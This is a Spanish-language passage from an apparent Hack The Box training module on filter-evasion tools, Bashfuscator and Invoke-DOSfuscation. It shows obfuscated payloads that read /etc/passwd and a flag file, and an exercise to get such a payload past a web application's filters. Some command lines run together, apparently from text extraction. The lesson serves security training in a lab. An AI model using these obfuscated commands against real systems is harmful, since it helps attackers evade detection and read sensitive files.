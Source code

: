 # Evasion Tools

Si estamos tratando con herramientas de seguridad avanzadas, es posible que no podamos usar técnicas básicas de ofuscación manual. En tales casos, puede ser mejor recurrir a herramientas de ofuscación automatizadas. Esta sección discutirá un par de ejemplos de este tipo de herramientas, uno para`Linux`y otro para`Windows.`

---

# **Linux (Bashfuscator)**

Una herramienta útil que podemos utilizar para ofuscar los comandos de bash es[Bashfuscator](https://github.com/Bashfuscator/Bashfuscator). Podemos clonar el repositorio de GitHub y luego instalar sus requisitos, de la siguiente manera:

Herramientas de evasión

```
xnoxos@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscatorxnoxos@htb[/htb]$ cd Bashfuscatorxnoxos@htb[/htb]$ pip3 install setuptools==65xnoxos@htb[/htb]$ python3 setup.py install --user
```

Una vez que tenemos la herramienta configurada, podemos comenzar a usarla desde el`./bashfuscator/bin/`directorio. Hay muchas banderas que podemos usar con la herramienta para ajustar nuestro comando ofuscado final, como podemos ver en el`-h`Menú de ayuda:

Herramientas de evasión

```
xnoxos@htb[/htb]$ cd ./bashfuscator/bin/xnoxos@htb[/htb]$ ./bashfuscator -husage: bashfuscator [-h] [-l] ...SNIP...

optional arguments:
  -h, --help            show this help message and exit

Program Options:
  -l, --list            List all the available obfuscators, compressors, and encoders
  -c COMMAND, --command COMMAND
                        Command to obfuscate
...SNIP...

```

Podemos comenzar simplemente proporcionando el comando que queremos ofuscar con el`-c`bandera:

Herramientas de evasión

```
xnoxos@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
${*/+27\[X\(} ...SNIP...  ${*~}   [+] Payload size: 1664 characters

```

Sin embargo, ejecutar la herramienta de esta manera elegirá una técnica de ofuscación al azar, que puede generar una longitud de comando que varía de unos pocos cientos de caracteres a más de un millón de caracteres. Por lo tanto, podemos usar algunas de las banderas del menú de ayuda para producir un comando ofuscado más corto y simple, de la siguiente manera:

Herramientas de evasión

```
xnoxos@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1[+] Mutators used: Token/ForCode
[+] Payload:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters

```

Ahora podemos probar el comando salido con`bash -c ''`, para ver si ejecuta el comando previsto:

Herramientas de evasión

```
xnoxos@htb[/htb]$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'root:x:0:0:root:/root:/bin/bash
...SNIP...

```

Podemos ver que el comando ofuscado funciona, todo mientras parece completamente ofuscado, y no se parece a nuestro comando original. También podemos notar que la herramienta utiliza muchas técnicas de ofuscación, incluidas las que discutimos anteriormente y muchos otros.

Ejercicio: intente probar el comando anterior con nuestra aplicación web, para ver si puede omitir con éxito los filtros. Si no es así, ¿puedes adivinar por qué? ¿Y puede hacer que la herramienta produzca una carga útil que funcione?

---

# **Windows (dosfuscación)**

También hay una herramienta muy similar que podemos usar para Windows llamada[Dosfusco](https://github.com/danielbohannon/Invoke-DOSfuscation). A diferencia de`Bashfuscator`, esta es una herramienta interactiva, ya que la ejecutamos una vez e interactuamos para obtener el comando ofuscado deseado. Una vez más, podemos clonar la herramienta de GitHub y luego invocarla a través de PowerShell, de la siguiente manera:

Herramientas de evasión

```powershell
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help

HELP MENU :: Available options shown below:
[*]  Tutorial of how to use this tool             TUTORIAL
...SNIP...

Choose one of the below options:
[*] BINARY      Obfuscated binary syntax for cmd.exe & powershell.exe
[*] ENCODING    Environment variable encoding
[*] PAYLOAD     Obfuscated payload via DOSfuscation

```

Incluso podemos usar`tutorial`Para ver un ejemplo de cómo funciona la herramienta. Una vez que estamos configurados, podemos comenzar a usar la herramienta, de la siguiente manera:

Herramientas de evasión

```powershell
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

...SNIP...
Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

```

Finalmente, podemos intentar ejecutar el comando ofuscado en`CMD`, y vemos que de hecho funciona como se esperaba:

Herramientas de evasión

```
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

test_flag

```

Consejo: si no tenemos acceso a una VM de Windows, podemos ejecutar el código anterior en una VM Linux a través de`pwsh`. Correr`pwsh`, y luego siga exactamente el mismo comando desde arriba. Esta herramienta se instala de forma predeterminada en su instancia `pwnbox`. También puede encontrar instrucciones de instalación en este[enlace](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell-core-on-linux).

For more on advanced obfuscation methods, you may refer to the [Secure Coding 101: JavaScript](https://academy.hackthebox.com/course/preview/secure-coding-101-javascript) module, which covers advanced obfuscations methods that can be utilized in various attacks, including the ones we covered in this module.